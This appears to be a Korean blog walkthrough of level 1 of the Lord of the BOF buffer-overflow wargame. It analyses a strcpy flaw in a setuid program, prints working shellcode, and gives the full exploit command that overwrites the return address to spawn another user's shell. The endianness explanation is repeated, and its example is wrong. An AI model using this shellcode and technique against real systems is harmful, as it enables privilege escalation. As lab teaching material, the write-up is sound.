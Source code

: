 ```yaml
---
title: BOF/ LOB-level1(gate)
tags: LOB
---
```


LOB란 The Lord of the BOF의 약자로 Buffer over-flow를 연습해 볼 수 있는 해킹문제이다.    
총 20문제로 구성되어 있으며 각 문제를 격파하여 다음 레벨의 패스워드를 얻는 형식이다.  
문제를 격파하고 다음 레벨의 bash를 획득하였다면 my-pass로 패스워드를 확인할 수 있다.  

 [send me email](mailto:jewel7492@gmail.com) if you have any questions.

<!--more-->

---
### LOB Level 1(gate)
**ID : gate**  
**PASSWD : gate**         

```bash
$ bash2
```
풀이 시작 전에 bash2로 꼭 변경  
**bash는 \xff를 \x00(NULL)로 인식하여 제대로 문제를 풀 수 없다.**  

![그림1](/assets/LOB/level1/1.PNG)  
사용자 gremlin의 권한의 gremlin파일이 있음을 확인할 수 있다.  
**set-uid가 걸려있으므로 사용자 gremlin의 권한으로 파일을 실행할 수 있다.**  
**gremlin파일이 쉘을 실행시키도록 한다면 사용자 gremlin의 쉘을 획득할 수 있다.**  

<br />
{% highlight C linenos %}  
/*
        The Lord of the BOF : The Fellowship of the BOF
        - gremlin
        - simple BOF
*/

int main(int argc, char *argv[])
{
    char buffer[256];
    if(argc < 2){
        printf("argv error\n");
        exit(0);
    }
    strcpy(buffer, argv[1]);
    printf("%s\n", buffer);
}

{% endhighlight %}  

**gremlin.c**

### 소스분석  
1. argc가 2보다 작다면 "ergv error"을 출력하고 프로그램을 종료한다.  
**argc란? - 파라미터의 개수를 의미한다. 즉 main에 최소 2개이상의 인자를 전달하여야 한다.**  
2. main에 전달받은 인자 argv[1]을 buffer에 복사하여 출력하는 소스(argv[0]은 파일명)  
**strcpy함수는 복사할 데이터의 크기제한이 없기 때문에 argv[1]이 256Byte보다 크다면 buffer-overflow가 발생하는 취약점이 있다.**  

### Solution  
**쉘코드를 인자로 전달하고 쉘코드의 주소를 buffer over-flow시켜 프로그램이 쉘코드를 실행하도록 공격한다.**  
what is shellcode? - 주로 기계어 코드로 이루어진 소프트웨어 취약점을 공격하기 위한 코드.  

#### level1에서 사용한 쉘코드  
**\x31\xc0\xb0\x31\xcd\x80\x89\xc3\x89\xc1\x31\xc0\xb0\x46\xcd\x80\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80**  
이 41Byte 쉘코드는 /bin/bash를 실행시키도록 하는 코드이다.  

**ShellCode를 이용하기 위해서는 프로그램 Stack의 구조를 알아야 한다.**  

스택구조|
---|
buffer(256Byte)|
sfp(4Byte)|
ret(4Byte)| 

**SFP(Stack frame pointer) - 이전 함수의 EBP주소를 담고 있다.**  
(EBP - 스택의 가장 바닥을 가리키는 포인터)  
**RET(Return Address) - 함수가 종료시 return될 주소**  

#### 쉘코드의 주소를 ret에 덮어씌우면 main함수가 종료되며 쉘코드를 실행시킬 것이다.  

### disassemble  

**쉘코드의 주소는 buffer의 시작주소가 될 것이기 때문에 buffer의 시작 주소를 얻기 위해 디버깅을 한다.**  
권한문제가 없도록 gremlin를 복사하고 gdb를 사용하여 intel방식으로 디스어셈블 한다.  
![그림2](/assets/LOB/level1/2.PNG)  
disassemble 결과  

![그림3](/assets/LOB/level1/3.PNG)  
**buffer의 시작주소를 확인하기 위해 main함수의 종료 전에 BreakPoint를 걸고 AAAA를 인자로 전달하여 실행시킨 뒤 스택의 값을 출력해본다.**  
esp - 스택의 최상단을 가리키는 포인터  
**b - break명령, r - run명령, x/[범위]wx - 메모리 상태 검사명령(주소 범위 만큼 16진수로 4Byte단위로 출력)**   

**인자로 전달한 AAAA의 Ascii값 41414141을 확인할 수 있다. -> buffer의 시작주소 = 0xbffffa28**  

### Attack  

ShellCode의 주소와 스택의 구조를 파악하였으므로 공격을 시도할 수 있다.  
**./gremlin [shellcode] + [dummy값] + [buffer시작주소]**의 형태로 공격.  
**이 때 shellcode + dummy값의 길이는 buffer의 길이 + sfp(4byte)만큼 즉 260Byte여야 한다.**
**또한 RET에 덮을 buffer의 시작주소는 리틀 엔디안 방식으로 기입한다.**  

**리틀 엔디안은 최 하위 바이트 부터 저장하는 방식이다.**  
ex) 0xbffffc11을 리틀 엔디안 방식으로 저장하면 11cfffbf가 된다.  
보통 엔디안 방식은 CPU 아키텍쳐에 따라 다르지만 intel x86, x64, AMD 계열은 리틀엔디안, 모토로라 프로세서들은 빅엔디안을 사용한다.  
현재 시스템의 엔디안방식을 확인하고 싶다면 echo -n I | od -to2 | head -n1 | awk'{print $2;}' | cut -c6  
명령으로 나오는 값이 1이라면 리틀 엔디안, 0이라면 빅엔디안이다.  

![그림4](/assets/LOB/level1/4.PNG)  
공격이 실패하였다.   

**why?**  
gdb를 이용하여 디버깅을 하게 되면 한번 복사되어 들어가기 때문에 실제 프로세스 주소와 차이가 있다.  

{% highlight C linenos %}  
#include <stdio.h>

int main(int argc, char *argv[])
{
    char buffer[256];
    if(argc < 2){
        printf("argv error\n");
        exit(0);
    }
    strcpy(buffer, argv[1]);
    printf("%s\n", buffer);
    printf("%x\n", buffer);
}

{% endhighlight %} 

![그림5](/assets/LOB/level1/5.PNG)   
**gcc는 컴파일러로 -o옵션은 생성할 바이너리파일의 이름을 지정한다.**  
get_addr.c를 컴파일하여 생성할 파일의 이름은 get_addr로 짓도록 하는 명령  


![그림6](/assets/LOB/level1/6.PNG)   
다시 알아낸 buffer의 주소를 대입하여 공격, 성공적으로 grimlin의 bash를 획득하였다.  


**리틀 엔디안은 최 하위 바이트 부터 저장하는 방식이다.**  
ex) 0xbffffc11을 리틀 엔디안 방식으로 저장하면 11cfffbf가 된다.  
보통 엔디안 방식은 CPU 아키텍쳐에 따라 다르지만 intel x86, x64, AMD 계열은 리틀엔디안, 모토로라 프로세서들은 빅엔디안을 사용한다.  
현재 시스템의 엔디안방식을 확인하고 싶다면 echo -n I | od -to2 | head -n1 | awk'{print $2;}' | cut -c6  
명령으로 나오는 값이 1이라면 리틀 엔디안, 0이라면 빅엔디안이다.  

```bash
$ ./gremlin `python -c "print '\x31\xc0\xb0\x31\xcd\x80\x89\xc3\x89\xc1\x31\xc0\xb0\x46\xcd\x80\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80' + 'A' * 219 + '\x28\xf9\xff\xbf'"`
```